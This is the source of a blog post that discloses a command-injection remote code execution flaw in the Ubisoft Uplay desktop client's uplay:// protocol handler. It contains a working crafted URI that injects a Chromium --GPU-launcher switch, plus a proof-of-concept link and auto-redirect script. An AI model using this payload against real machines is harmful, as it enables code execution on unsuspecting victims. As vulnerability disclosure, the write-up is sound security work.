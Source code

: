 ```yaml
---
title: Ubisoft UPlay RCE Exploit
layout: post
date: 2018-11-16 12:33
image: "/images/ubipoc.png"
post: post

---
```

<h1 class="cyan-text title">Ubisoft Uplay Desktop Client - Remote Code Execution</h1>
<h2 class="cyan-text subtitle">Introduction</h2>

<div class="content white-text">
	Exploit Title: Ubisoft Uplay Desktop Client 63.0.5699.0 - Remote Code Execution
	<br>
	Date: 2018-09-01
	<br>
	Exploit Author: Che-Chun Kuo
	<br>
	Vulnerability Type: URI Parsing Command Injection
	<br>
	Vendor Homepage: https://www.ubisoft.com/en-us/
	<br>
	Software Link: https://uplay.ubi.com/
	<br>
	Version: 63.0.5699.0
	<br>
	Tested on: Windows, Microsoft Edge
	<br>
	Advisory: https://forums.ubi.com/showthread.php/1912340-Uplay-PC-Client-July-17th-2018
	<br>

	<h3 class="cyan-text subtitle">Vulnerability</h3>
	<br>
The Uplay desktop client does not properly validate user-controlled data passed to its custom uplay URI protocol handler. This flaw can be used to exploit the Chromium Embedded Framework (CEF) integrated within the Uplay client, allowing for arbitrary code execution.
	<br>

Installing Uplay registers the following custom uplay protocol handler:

	<pre><code class="black green-text">HKEY_CLASSES_ROOT
	uplay
		(Default) = "URL:uplay Protocol"
		URL Protocol = ""
			DefaultIcon
				(Default) = "upc.exe"
		Shell
			Open
			Command
				(Default) = "C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher\upc.exe" "%1"
	</code></pre>
	<br>

The %1 will be replaced with arguments from the URI. The following crafted URI performs arbitrary code execution:

<pre><code class="black green-text">uplay://foobar" --GPU-launcher="cmd /K whoami &" --</code></pre>

When a victim opens this URI, the string is passed to the Windows ShellExecute function.
<br><br>
Microsoft states the following: "When ShellExecute executes the pluggable protocol handler with a string on the command line, any non-encoded spaces, quotes, and backslashes in the URI will be interpreted as part of the command line. This means that if you use C/C++’s argc and argv to determine the arguments passed to your application, the string may be broken across multiple parameters."
<br><br>
"Malicious parties could use additional quote or backslash characters to pass additional command line parameters. For this reason, pluggable protocol handlers should assume that any parameters on the command line could come from malicious parties, and carefully validate them."
<br><br>
The Uplay desktop client does not properly validate user-controlled data. An attacker can inject certain Chromium flags that allow for arbitrary code execution. The malicious URI breaks the command line with a quote character and inserts a new switch called --GPU-launcher. Since the Uplay client uses the Chromium Embedded Framework (CEF), Chromium command lines switches are supported.
<br><br>
The --GPU-launcher switch provides a method to execute arbitrary commands. The following string shows the final command, which opens the Windows command prompt and executes the whoami program.
<br>

	<pre><code class="black green-text">"C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher\upc.exe" "foobar" --GPU-launcher="cmd /K whoami &" --"</code></pre>

	<h3 class="cyan-text subtitle">Attack Scenario</h3>

The following attack scenario would result in the compromise of a victim's machine with the vulnerable Uplay client installed. A user running Microsoft Edge visits a specially crafted webpage or clicks on a specially crafted link. The user is served with the prompt: Did you mean to switch apps? Microsoft Edge is trying to open "UPlay launcher". After the user gives consent, the vulnerable application runs, resulting in arbitrary code execution in the context of the current process.
<br><br>
This scenario also works on IE, but the IE browser shows the URI string to be opened and warns users against opening untrusted content. Microsoft Edge provides no such warning. Chrome and Firefox both escape illegal characters before passing the URI to the protocol handler.
<br><br>
After Uplay desktop client (upc.exe) is run, upc.exe will attempt to open additional executables before the --GPU-launcher is activated. One notable executable is the UplayService.exe. UplayService requires elevated privileges. If the user is a non-administrative user a UAC prompt will appear.
<br><br>
It should be noted, this UAC prompt doesn't prevent command execution from occurring. Regardless of which option the user chooses within the UplayService UAC prompt (Yes/No), command execution will still occur once the code that passes the --GPU-launcher switch to the CEF is triggered within upc.exe.

<h4 class="cyan-text subtitle">Proof of Concept</h4>

The following POC provides two avenues to trigger the vulnerability within Microsoft Edge.
The first method triggers when the webpage is opened.
The second method triggers when the hyperlink is clicked by a user.
<br>

<pre><code class="black green-text">&lt;a href='uplay://foobar" --GPU-launcher="cmd /K whoami &" --'&gt;ubisoft uplay desktop client rce poc&lt;/a&gt;

&lt;script&gt;
  window.location = 'uplay://foobar" --GPU-launcher="cmd /K whoami &" --'
&lt;/script&gt;
</code></pre>
<br>

</div>
<div class="video-container">
  <iframe src="https://www.youtube.com/embed/mffRsZgWgys" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
 </div>